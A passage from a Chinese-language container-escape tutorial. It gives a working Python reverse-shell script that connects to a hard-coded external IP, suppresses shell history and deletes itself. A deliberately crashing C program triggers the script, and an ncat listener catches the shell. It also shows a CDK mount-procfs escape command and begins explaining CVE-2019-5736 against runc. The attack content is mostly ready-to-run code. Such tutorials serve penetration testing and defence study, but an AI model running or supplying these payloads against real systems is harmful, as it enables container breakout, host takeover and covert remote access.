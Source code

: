 |     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>``` | ```python<br>cat >/tmp/.x.py << EOF<br>#!/usr/bin/python<br>import os<br>import pty<br>import socket<br>lhost = "101.32.10.105"<br>lport = 9999<br>def main():<br>    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)<br>    s.connect((lhost, lport))<br>    os.dup2(s.fileno(), 0)<br>    os.dup2(s.fileno(), 1)<br>    os.dup2(s.fileno(), 2)<br>    os.putenv("HISTFILE", '/dev/null')<br>    pty.spawn("/bin/bash")<br>    os.remove('/tmp/.x.py')<br>    s.close()<br>if __name__ == "__main__":<br>    main()<br>EOF<br><br>chmod +x /tmp/.x.py<br>``` |

最后，在容器内运行一个可以崩溃的程序即可，例如：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>``` | ```c<br>#include <stdio.h><br>int main(void)<br>{<br>    int *a = NULL;<br>    *a = 1;<br>    return 0;<br>}<br>``` |

容器内若没有编译器，可以先在其他机器上编译好后放入容器中。

完成后，在其他机器上开启 shell 监听：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>ncat -lvnp 9999<br>``` |

接着在容器内执行上述编译好的崩溃程序，即可获得反弹 shell。

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202111121638548.png-water_print](assets/1699410413-2110fa940636565edcf39439c2978a46 "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202111121638548.png-water_print")

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202111121638511.png-water_print](assets/1699410413-25118e50d20b88020cb21194f5053cb3 "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202111121638511.png-water_print")

利用 CDK 工具：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>./cdk run mount-procfs /mnt/host_proc "touch /tmp/exp-success"<br>``` |

## [](#4-%E7%9B%B8%E5%85%B3%E7%A8%8B%E5%BA%8F%E6%BC%8F%E6%B4%9E%E5%AF%BC%E8%87%B4%E7%9A%84%E5%AE%B9%E5%99%A8%E9%80%83%E9%80%B8)4 相关程序漏洞导致的容器逃逸

### [](#41-cve-2019-5736)4.1 CVE-2019-5736

影响版本：`Docker version <= 18.09.2` & `RunC version <= 1.0-rc6`

#### [](#411-%E5%8E%9F%E7%90%86)4.1.1 原理

CVE-2019-5736 一个能够覆盖宿主机 runc 程序的容器逃逸漏洞。

在执行功能类似于 `docker exec` 等命令时，底层实际上是容器运行时在操作。例如 runC，相应地，`runc exec` 命令会被执行。它的最终效果是在容器内部执行用户指定的程序。进一步讲，就是在容器的各种命名空间内，受到各种限制（如 Cgroups）的情况下，启动一个进程。除此以外，这个操作与在宿主机上执行一个程序并无二致。

执行过程大体如下：runC 启动并加入到容器的命名空间，接着以自身 (`/proc/self/` `exe`）为范本启动一个子进程，最后通过 exec 系统调用执行用户指定的二进制程序。

proc 伪文件系统，即 /proc。关于这个概念，这里我们主要关注 proc 下的两类文件：

-   `/proc/[PID]/exe`：它是一种特殊的符号链接，又被称为 `magic links`， 指向进程自身 对应的本地程序文件（例如我们执行 `ls /proc/[ls-PID]/exe` 就指向 `/bin/ls`)。
-   `/proc/[PID]/fd/`：这个目录下包含了进程打开的所有文件描述符。

`/proc/[PID]/exe` 的特殊之处在于，当打开这个文件时，在权限检查通过的情况下，内核将 直接返回一个指向该文件的描述符，而非按照传统的打开方式做路径解析和文件查找。这样 一来，它实际上绕过了 mnt 命名空间及 chroot 机制对一个进程能够访问到的文件路径的限制。
